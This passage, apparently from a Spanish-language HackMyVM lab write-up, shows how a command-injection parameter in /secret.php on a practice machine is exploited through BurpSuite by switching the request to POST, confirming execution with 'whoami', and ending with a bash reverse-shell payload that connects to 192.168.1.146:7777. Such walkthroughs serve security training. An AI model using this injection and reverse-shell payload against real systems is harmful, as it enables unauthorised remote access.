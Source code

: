 Veremos que no ha funcionado, pero por que no es el metodo adecuado, estamos utilizando el metodo `GET` por lo que vamos a probar a utilizar el metodo `POST` capturando la peticion con `BurpSuite`.

Una vez que tengamos abierto `BurpSuite` capturaremos la peticion recargando la pagina enviando el `whoami`, por lo que veremos lo siguiente:

```
GET /secret.php?HackMyVM=whoami HTTP/1.1
Host: 192.168.1.236
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Ahora vamos a darle `click` derecho -> `changue request method` y con esto nos quedara asi:

```
POST /secret.php HTTP/1.1
Host: 192.168.1.236
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

HackMyVM=whoami
```

Ahora vamos a probar a enviarlo y veremos lo siguiente:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Fri, 18 Apr 2025 15:18:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 38

You Found ME : - (<pre>www-data
</pre>
```

Por lo que vemos ha funcionado, ahora vamos a crearnos una `reverse shell` de la siguiente forma:

```
POST /secret.php HTTP/1.1
Host: 192.168.1.236
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

HackMyVM=bash+%20-c+%20"sh+%20-i+%20>%26+%20/dev/tcp/192.168.1.146/7777%20+0>%261"
```